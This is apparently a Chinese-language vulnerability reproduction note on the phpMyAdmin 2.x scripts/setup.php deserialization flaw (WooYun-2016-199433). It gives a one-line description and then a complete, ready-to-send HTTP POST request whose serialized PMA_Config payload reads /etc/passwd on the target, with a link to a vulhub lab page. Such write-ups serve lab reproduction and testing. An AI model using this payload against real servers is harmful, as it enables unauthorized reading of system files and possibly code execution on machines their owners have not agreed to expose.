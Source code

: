 （WooYun-2016-199433）Phpmyadmin scripts/setup.php 反序列化漏洞
===============================================================

一、漏洞简介
------------

phpmyadmin
2.x版本中存在一处反序列化漏洞，通过该漏洞，攻击者可以读取任意文件或执行任意代码。

二、漏洞影响
------------

phpmyadmin 2.x

三、复现过程
------------

发送如下数据包，即可读取`/etc/passwd`：

    POST /scripts/setup.php HTTP/1.1
    Host: www.0-sec.org:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 80

    action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}

![1.png](./.resource/(WooYun-2016-199433)Phpmyadminscripts_setup.php反序列化漏洞/media/rId24.png)

参考链接
--------

> https://github.com/vulhub/vulhub/blob/master/phpmyadmin/WooYun-2016-199433/README.zh-cn.md

